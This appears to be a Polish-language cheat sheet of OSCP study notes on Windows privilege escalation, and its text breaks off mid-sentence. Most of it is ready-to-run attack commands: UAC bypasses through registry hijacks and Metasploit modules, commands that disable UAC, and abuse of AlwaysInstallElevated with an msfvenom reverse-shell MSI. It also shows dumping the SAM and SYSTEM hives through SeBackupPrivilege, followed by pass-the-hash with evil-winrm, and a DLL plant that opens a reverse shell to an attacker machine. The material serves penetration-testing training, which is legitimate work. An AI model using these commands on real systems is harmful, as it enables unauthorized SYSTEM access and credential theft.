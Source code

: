 <p>#uruchomienie powershell jako elevated (ale i tak musisz być adminem): <strong>powershell.exe Start-Process cmd.exe -Verb runAs</strong><br>#sprawdz jakie mas priv: net localgroup administrators (musisz tu być do elevated)<br>#<a href="https://3haker.pl/windows-privilege-escalation/">fodhelper</a>.exe w /system 32/ (<a href="https://3haker.pl/windows-privilege-escalation/">tutaj</a> lab oscp22)<br>#./PsExec.exe -s \localhost cmd<br>#<mark style="background-color:#dbffd3" class="has-inline-color">psexec.exe -accepteula -s cmd.exe</mark><br>#Dodawanie komendy do Rejestru (<a href="https://3haker.pl/windows-privilege-escalation/">oscp</a>): REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command<br>#listowanie usług które moga nam pomóc elevate: Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running’} (<a href="https://3haker.pl/windows-privilege-escalation/">oscp</a> z instrukcją)<br>#UAC Protection Bypass <a href="https://www.exploit-db.com/exploits/46998">exploit</a> w Powershell<br>#podobno tez dobry .exe z offs <a href="https://github.com/hfiref0x/UACME">git</a>   #&gt;  C:\tools\UACME-Akagi64.exe 33<br>#<a href="https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/">artykul</a> zebranie roznych metod<br>#CVE-2019-1388 Abuse UAC Windows Certificate Dialog  (jak klikniejsz Run as Adminsitrator i jest link  Shod details &gt; Show information about the publisher’s certificate nad form logowania) <a href="https://github.com/nobodyatall648/CVE-2019-1388">instrukcja</a>  i  <a href="https://www.youtube.com/watch?v=RW5l6dQ8H-8">YT</a><br><strong>###S1ren, patrz też poniżej bo to samo###</strong><br>#reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>#reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>[Installing Elevated]<br>#msiexec /i PATH_TO_MSI_FILE np. C:&gt;msiexec /i „C:\xamoo\htdocs\shenzi\siren.msi” (<a href="https://3haker.pl/holiday-box-walkthrough-with-s1ren-shenzi-pg-practice/">tutaj</a> lab)<br><strong>###AlwaysInstallElevated###</strong><br><em>If these 2 registers are enabled (value is <strong>0x1</strong>), users of any privilege can install (execute) .msi files as NT AUTHORITY\SYSTEM.</em><br>#—-Check registers:<br>#–OPTION 1:<br>#reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>#reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>#–OPTION 2:<br>#reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated<br>#reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated<br><strong>##Exploit do w/w##</strong><br>#msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f msi &gt; rshell.msi (generate MSI payload in Kali)<br>#msiexec /quiet /qn /i C:\temp\rshell.msi<br>#x86_64-w64-mingw32-gcc ~/OSCP-2022/Tools/privesc-windows/uac-bypass.c -o uac-bypass.exe (lub inna architektura)  #&gt; na Windows: .\uac-bypass.exe<br><strong>###Msfconsole###</strong><br>#use exploit/windows/local/bypassuac (Bypass UAC on Windows 7 + Set target + arch, x86/64)<br>#jeżeli masz sesje jako administrator na maszynie: exploit/windows/local/bypassuac_injection #&gt; domyślnie jest 32bit więc może trzeba zmienić payload: set payload windows/x64/meterpreter/reverse_tcp + set TARGET Windows\ x64 + zmiana portu i run #&gt; getsystem #&gt; getuid #&gt; hashdump<br><strong>###Czy potrzebujesz UAC?###</strong><br>#whoami /groups (is „Mandatgory Label\XXX Mandatory Level” set to MEDIUM?)<br>#psexec.exe -i -accepteula -d -s rshell.exe (are we getting issues running psexec as SYSTEM?)<br><strong>###Czy UAC jest włączone i próba wyłączenia###</strong><br>#reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System (czy pisze: UAC Enable)<br>#reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /d 0 /t REG_DWORD<br><strong>###Bypass UAC – User Access Controll###</strong><br>#<br><strong>###G Tworek – przywileje z whoami np. SeBackup###</strong><br>#<a href="https://github.com/gtworek/Priv2Admin">link</a> do git z listą i narzędziami na priv esc<br>#—- <a href="https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/">link</a> po wiecej  i <a href="https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/">tu</a> ciekawy artykul o roznych metodach<br>#whoami /priv #&gt; SeBackupPrivilege disabled? Enable it #&gt; File Transfer those two dll #&gt; Import-Module .\SeBackupPrivilegeUtils.dll #&gt; Import-Module .\SeBackupPrivilegeCmdLets.dll #&gt; Set-SeBackupPrivilege #&gt; Get-SeBackupPrivilege #&gt; cd c:\ #&gt; mkdir Temp #&gt; reg save hklm\sam c:\Temp\sam #&gt; reg save hklm\system c:\Temp\system #&gt; File transfer them to kali #&gt; pypykatz registry –sam sam system #&gt; Pass the hash using evil-winrm – evil-winrm -i ip -u user -H „hash”<br><strong>###Adamski , przejście z Medium Mandatory Level###</strong><br>#ten na <a href="https://github.com/k4sth4/UAC-bypass?fbclid=IwAR1YZwUMKsA4Twzbr5F5lvqe7LgqALu19NgJ6ONmUA_wn9zhZcSSWFH_tZo">git</a> plik .c do kompilacji (patrz w/w kompilacja: x86_64…), zwłaszcaa „eventvwr” skuteczna<br>#lub: psexec.exe -d -h -i c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe<br><strong>####SeManageVolumePrivilege###</strong><br>#SeManageVolumeExploit.exe<br>#przez msfvenom generuje Printconfig.dll z rev-shell na Kali<br>#copy Printcopy.dll C:\Windows\System32\spool\drivers\x64\3\<br>#&gt; powershell<br>#&gt; $type = [Type]::GetTypeFromCLSID(„{854A20FB-2D44-457D-992F-EF13785D2B51}”)<br>#&gt; $object = [Activator]::CreateInstance($type)<br>#&gt; i mamy revshella jako nr authority na Kalim na których nasłuchowaliśny<br><strong>###SeRestorePrivilege###</strong><br>#<a href="https://github.com/gtworek/Priv2Admin">git</a> tworka super opisuje co